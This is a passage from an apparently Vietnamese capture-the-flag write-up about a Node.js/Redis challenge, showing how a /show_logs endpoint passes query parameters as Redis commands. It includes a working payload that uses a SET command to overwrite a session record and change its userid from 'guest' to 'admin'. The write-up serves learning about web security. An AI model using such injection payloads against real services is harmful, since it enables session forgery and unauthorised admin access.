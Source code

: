 và hiện thành công giờ chúng ta show ra thử

và nó đã tạo mới cho chúng ta là Key là admin và nội dung là 1234

![Untitled](/assets/writeup/cookie/NodeRedisAPI/Untitled%2016.png)

![Untitled](/assets/writeup/cookie/NodeRedisAPI/Untitled%2017.png)

mà login thì nó phải so sánh nội dung trong sess có chưa userid theo 
`{"cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"},"userid":"guest"}`

mới được xem là hợp lệ vậy giờ liệu chúng ta có thể ghi đè lên nó hay không?

giờ mình thử sess có chứa userid guest thay thành admin và đăng nhập với user guest xem có được hay không?

payload: 

`/show_logs?log_query[0]=set&log_query[1]=sess:kUmcNMl23GZvk3DJeaqG-QH4sRCgCzPi&log_query[1]={"cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"},"userid":"admin"}`

![Untitled](/assets/writeup/cookie/NodeRedisAPI/Untitled%2018.png)
